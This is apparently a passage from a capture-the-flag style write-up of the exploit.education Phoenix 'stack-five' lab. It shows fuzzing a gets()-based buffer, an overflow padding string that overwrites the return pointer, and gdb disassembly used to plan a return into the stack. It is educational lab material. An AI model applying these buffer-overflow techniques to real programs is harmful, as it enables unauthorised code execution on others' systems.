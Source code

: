 
### Exploiting the program

To find out how much input exactly the program can take before the buffer overflows I wanted to use the alphabet again, no luck tho this time the buffer could handle that. Also, yes, i could have looked in the source code and realise that "char buffer[128];" is quite a bit larger this time and yes one could also do the math to find out exactly how much input is needed. Fuzzing is more fun tho.

```
Welcome to phoenix/stack-five, brought to you by https://exploit.education
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
[Inferior 1 (process 328) exited normally]
```

Fear not tho, there are also lowercase letters with which we can go even further.
I came up with the following padding for my overflow where I "AAAA" at the end is overwriting the return pointer:
```
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZaaaabbbbccccddddeeeefffgggghhhhiiiijjjjkkkAAAA
```

Now after the buffer we start overwriting the return pointer, which leads to a segmentation fault because the address we tried to return to with our test input does not exists. That's not really what we want tho, we want the program to return to an existing area of memory, one that we control, that's the stack.
Next thing I did was to set a breakpoint at the end of "start_level" function to observe the stack

```
(gdb) disassemble start_level
Dump of assembler code for function start_level:
   0x000000000040058d <+0>:	push   rbp
   0x000000000040058e <+1>:	mov    rbp,rsp
   0x0000000000400591 <+4>:	add    rsp,0xffffffffffffff80
   0x0000000000400595 <+8>:	lea    rax,[rbp-0x80]
   0x0000000000400599 <+12>:	mov    rdi,rax
   0x000000000040059c <+15>:	call   0x4003f0 <gets@plt>
   0x00000000004005a1 <+20>:	nop
   0x00000000004005a2 <+21>:	leave  
   0x00000000004005a3 <+22>:	ret    
End of assembler dump.
(gdb) break *0x4005a1
Breakpoint 1 at 0x4005a1
```

We also have to take a look at main to find the Address that we want to return to


```
Dump of assembler code for function main:
   0x00000000004005a4 <+0>:	push   rbp
   0x00000000004005a5 <+1>:	mov    rbp,rsp
   0x00000000004005a8 <+4>:	sub    rsp,0x10
   0x00000000004005ac <+8>:	mov    DWORD PTR [rbp-0x4],edi
   0x00000000004005af <+11>:	mov    QWORD PTR [rbp-0x10],rsi
   0x00000000004005b3 <+15>:	mov    edi,0x400620
   0x00000000004005b8 <+20>:	call   0x400400 <puts@plt>
   0x00000000004005bd <+25>:	mov    eax,0x0
   0x00000000004005c2 <+30>:	call   0x40058d <start_level>
   0x00000000004005c7 <+35>:	mov    eax,0x0
   0x00000000004005cc <+40>:	leave  
   0x00000000004005cd <+41>:	ret    
End of assembler dump.
```
